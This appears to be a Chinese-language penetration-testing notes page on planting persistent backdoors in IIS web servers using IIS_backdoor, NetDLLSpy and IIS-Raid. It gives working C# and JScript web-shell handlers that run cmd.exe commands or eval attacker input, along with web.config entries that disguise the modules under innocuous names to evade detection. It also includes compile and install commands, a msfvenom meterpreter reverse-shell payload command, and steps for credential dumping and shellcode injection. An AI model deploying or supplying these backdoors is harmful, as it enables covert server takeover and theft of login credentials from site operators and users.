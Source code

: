   #### IIS_Bin_Backdoor
	From:https://github.com/WBGlIl/IIS_backdoor
	IIS_backdoor_dll.dl放入 web 目录的 bin 文件夹中配置 web.config 文件
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <modules>
      <add name="IIS_backdoor" type="IIS_backdoor_dll.IISModule" />
        </modules>
    </system.webServer>
</configuration>
```
	IIS_backdoor_shell.exe执行命令
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/584.png)

	使用IISBackdoor太明显，容易被看出是后门，这里对后门改名
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/585.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/586.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/587.png)

	重新生成解决方案，dll放入bin目录，web.config修改为
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <modules>
      		<add name="UrlRoutingModule" type="UrlRoutingModule.IISModule" />
        </modules>
    </system.webServer>
</configuration>

```
	添加完之后会自动在模块中注册好
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/588.png)

	执行payload，msf生成raw格式payload，选择shellcode选项，raw文件拖入即可
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.108 LPORT=12138 -f raw -o /var/www/html/1.raw
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/589.png)
  #### IIS_NETDLL_Spy
	From:https://github.com/Ivan1ee/NetDLLSpy
	原作者提及三种方式，第一种编译代码为DLL新建aspx文件实例化后门类来执行命令，第二种是做httphandler映射可指定一个后缀执行命令保存文件在web服务器上，再读取结果。第三种是使用jsc.exe编译js脚本生成dll，添加映射菜刀连接。
	这里根据原作者的代码，进行了一下简单的修改，修改后的功能为添加httphandler映射指定一个后缀执行命令显示在页面上，不用保存在服务器中再访问。
	代码
```csharp
using System;
using System.Diagnostics;
using System.IO;
using System.Text;
using System.Web;
namespace IsapiModules
{
	public class Handler : IHttpHandler
	{
		public bool IsReusable
		{
			get
			{
				return false;
			}
		}
		public void ProcessRequest(HttpContext context)
		{
			string input = context.Request.Form["InternetInformationService"];  //command
			if (context.Request.Form["microsoft"] == "iis")//do command
			{
				this.cmdShell(input);
			}
		}
		public void cmdShell(string input)
		{
			Process process = new Process();
			process.StartInfo.FileName = "cmd.exe";
			process.StartInfo.RedirectStandardOutput = true;
			process.StartInfo.UseShellExecute = false;
			process.StartInfo.Arguments = "/c " + input;
			process.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
			process.Start();
			StreamReader output = process.StandardOutput;
			String result = output.ReadToEnd();
			output.Close();
			output.Dispose();
			HttpContext.Current.Response.Write(result);
		}
	}
}

```
	保存为随意后缀，使用csc编译。
	>C:\Windows\Microsoft.NET\Framework\v2.50727\csc.exe /t:library /r:System.Web.dll -out:C:\inetpub\wwwroot\Bin\SystemIO.dll C:\inetpub\wwwroot\bin\code.cs
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/590.png)
	
	Web.config文件添加
	<system.webServer>
 		<handlers> 
			<add name="PageHandlerFactory-ISAPI-2.0-32" path="*.xxx" verb="*" type="IsapiModules.Handler" resourceType="Unspecified" requireAccess="Script" preCondition="integratedMode" /> 
		</handlers> 
	</system.webServer>
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/001.png)

	打开IIS管理器，可以看到处理映射管理器中已经添加了模块。
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/591.png)

	现在随意访问个xxx后缀的文件
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/592.png)
	
	带参数访问
	microsoft=iis&InternetInformationService=net user
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/593.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/594.png)

	第三种连接菜刀，这里也对代码修改了一下。
```javascript
import System; 
import System.Web; 
import System.IO; 
package IsapiModule
{ 
	public class Handler implements IHttpHandler
	{ 
		function IHttpHandler.ProcessRequest(context : HttpContext)
		{ 
			context.Response.Write("404 Not Found") 
			var I = context; 
			var Request = I.Request; 
			var Response = I.Response; 
			var Server = I.Server; 
			eval(context.Request["Internet"]); //pass
		} 
		function get IHttpHandler.IsReusable() : Boolean{ return true}
	}
}

```
	使用jsc编译
	>C:\Windows\Microsoft.NET\Framework\v4.0.30319\jsc.exe /t:library -out:C:\inetpub\wwwroot\Bin\IsapiModule.Handler.dll C:\inetpub\wwwroot\bin\code.js
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/595.png)
	
	编辑web.config，添加映射，这里指定的后缀是.iis
	<system.webServer> 
	<modules runAllManagedModulesForAllRequests="true"/> <directoryBrowse enabled="true"/>
 	<staticContent>
	 <mimeMap fileExtension=".json" mimeType="application/json" /> 
	 </staticContent> 
 	<handlers>
	 <add name="PageHandlerFactory-ISAPI-2.0-32-1" path="*.iis" verb="*" type="IsapiModule.Handler" preCondition="integratedMode"/>
	 </handlers>
	</system.webServer>
	已自动加入了映射。现在随便访问个iis后缀的文件。

![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/596.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/597.png)

	可使用菜刀直接连接
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/598.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/599.png)

  #### IIS_RAID
	From:https://github.com/0x09AL/IIS-Raid
	在vs2019下编译
	在Functions.h中修改连接密码，passfile是dump下来的密码保存的位置，com_header是后门和服务器通信的请求头。
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/600.png)

	打开项目修改完你的密码，直接ctrl+B生成解决方案即可(这里生成的是release版本)
	Dll传到服务器，改个名字，执行添加模块
	>C:\Windows\system32\inetsrv\APPCMD.EXE install module /name:IsapiDotNet /image:"c:\windows\system32\inetsrv\IsapiDotNet.dll" /add:true
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/601.png)

	在模块中可以看到已经存在了
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/602.png)

	远程连接
	>python3 iis_controller.py --url http://192.168.0.98 --password thisismykey
	执行命令的方式是
	>cmd +命令
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/603.png)

	Dump命令可以dump下来IIS站点的登录的信息，保存在设置的位置。
	Inject可以执行shellcode
	Cs/msf生成raw格式的shellcode
	>inject 位置
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/604.png)